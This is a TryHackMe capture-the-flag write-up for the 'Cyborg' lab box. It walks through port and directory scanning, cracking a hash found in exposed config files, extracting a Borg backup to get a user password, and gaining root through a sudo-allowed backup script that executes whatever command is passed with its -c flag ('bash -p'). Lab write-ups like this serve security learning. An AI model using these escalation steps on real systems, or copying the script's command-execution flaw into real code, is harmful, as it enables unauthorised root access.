










# [Cyborg](https://tryhackme.com/room/cyborgt8) TryHackMe Writeup


So this was a very different box from others and also an interesting concept is used on initial foothold.


## __First Stage : Enumeration__


Let's fireup nmap.

```
# Nmap 7.91 scan initiated Sun Jan 31 16:51:47 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.143.35
Warning: 10.10.143.35 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.143.35
Host is up, received syn-ack (0.20s latency).
Scanned at 2021-01-31 16:51:48 IST for 795s
Not shown: 65529 closed ports
Reason: 65529 conn-refused
PORT      STATE    SERVICE REASON      VERSION
22/tcp    open     ssh     syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtLmojJ45opVBHg89gyhjnTTwgEf8lVKKbUfVwmfqYP9gU3fWZD05rB/4p/qSoPbsGWvDUlSTUYMDcxNqaADH/nk58URDIiFMEM6dTiMa0grcKC5u4NRxOCtZGHTrZfiYLQKQkBsbmjbb5qpcuhYo/tzhVXsrr592Uph4iiUx8zhgfYhqgtehMG+UhzQRjnOBQ6GZmI4NyLQtHq7jSeu7ykqS9KEdkgwbBlGnDrC7ke1I9352lBb7jlsL/amXt2uiRrBgsmz2AuF+ylGha97t6JkueMYHih4Pgn4X0WnwrcUOrY7q9bxB1jQx6laHrExPbz+7/Na9huvDkLFkr5Soh
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB5OB3VYSlOPJbOwXHV/je/alwaaJ8qljr3iLnKKGkwC4+PtH7IhMCAC3vim719GDimVEEGdQPbxUF6eH2QZb20=
|   256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlr5id6IfMeWb2ZC+LelPmOMm9S8ugHG2TtZ5HpFuZQ
80/tcp    open     http    syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
29135/tcp filtered unknown no-response
34981/tcp filtered unknown no-response
37803/tcp filtered unknown no-response
47065/tcp filtered unknown no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 31 17:05:03 2021 -- 1 IP address (1 host up) scanned in 796.32 seconds
```

So the open ports are :

* 22
* 80


Hence I visited the port 80.





So I fired up gobuster and got some interesting results.

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.143.35/
[+] Threads:        100
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     js,txt,html,php
[+] Timeout:        10s
===============================================================
2021/01/31 16:52:20 Starting gobuster
===============================================================
/index.html (Status: 200)
/admin (Status: 301)
/etc (Status: 301)
```


## __Second Stage : Initial access as alex__
Hence I visited admin .




So there is a backup called music_archive in the web.

So I went to **/etc** . So I found two files.








And then the **squid.conf**

```
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

So first I cracked the hash and found the password.


Then when I went back to admin directory , in archives -> download I got **archive.tar**.





The **README** file gave a hint to look in the right direction.

```
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```

So after reading the documentation , I downloaded the binary and followed the instructions for extracting.

```
#Extract entire archive
$ borg extract /path/to/repo::my-files
```




So I found the password in __/home/alex/Documents/__.





## Third Stage : alex to root


Hence after ssh into the box .





So reading the **backup.sh**

```
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
	case "${flag}" in 
		c) command=${OPTARG};;
	esac
done


backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```
So we can see that the script is taking arguments through "c" flag , hence I tired **whoami**.





Since it worked I tried


> sudo /etc/mp3backups/backup.sh -c "bash -p"


And got root.





